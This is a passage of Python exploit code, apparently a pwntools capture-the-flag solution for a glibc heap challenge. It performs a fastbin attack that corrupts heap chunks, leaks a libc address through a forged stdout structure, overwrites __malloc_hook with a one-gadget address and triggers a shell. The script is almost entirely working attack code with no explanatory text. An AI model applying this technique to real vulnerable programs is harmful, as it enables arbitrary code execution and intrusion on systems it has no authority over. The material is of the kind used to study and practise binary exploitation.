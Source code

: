 ```py
    Alloc(0x40,'z\n')#5
    Alloc(0xf0,'z\n')#6
    log.success('chunks re malloc ok!')
    #fast bin attack
    Free(5)
    Alloc(0x48,'a'*0x40+p64(0xf0+0x50))#5
    Free(0)
    Free(6)

    Free(2)
    Alloc(0xc0,'a\n')#0
    Alloc(0x20,'\n')#2
    Alloc(0xf0,'b\n')#6
    Alloc(0x30,'c\n')#7
    ##
    Free(3)
    payload = 'a'*0x30+p64(0)+p64(0x71)+'\xdd\x25\n'
    Alloc(0x50,payload)#3
    log.success('ready to malloc fake chunk')
    Alloc(0x60,'wz\n')#8
    Alloc(0x60,'\x00'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00'+'\n')#9
    p.recvuntil('\x00\x18\xad\xfb')
    p.recvn(28)
    libc_addr = u64(p.recvn(8))
    log.info('libc addr => ' + hex(libc_addr))
    libc_base = libc_addr - 0x3c5600
    log.info('libc base => ' + hex(libc_base))
    malloc_hook = libc.symbols['__malloc_hook']
    target_addr = libc_base + malloc_hook - 0x23
    log.success('malloc hook addr => ' + hex(target_addr))
    #get shell
    shell_addr = libc_base + gadgets[2]
    Alloc(0x10,'wz\n')#10
    Alloc(0xf0,'wz\n')#11
    Free(10)
    log.info('before to overwrite next chunk')
    Alloc(0x18,'a'*0x10+p64(0x60))#10
    #fast bin attack,modify __malloc_hook
    Free(8)
    Free(3)
    Alloc(0x50,'a'*0x30+p64(0)+p64(0x71)+p64(target_addr)+'\n')
    Alloc(0x60,'wz\n')#8
    payload = '\x00'*0x13 + p64(shell_addr) + '\n'
    Alloc(0x60,payload)
    #trigger

    Free(11)

    p.interactive()
exp()

```
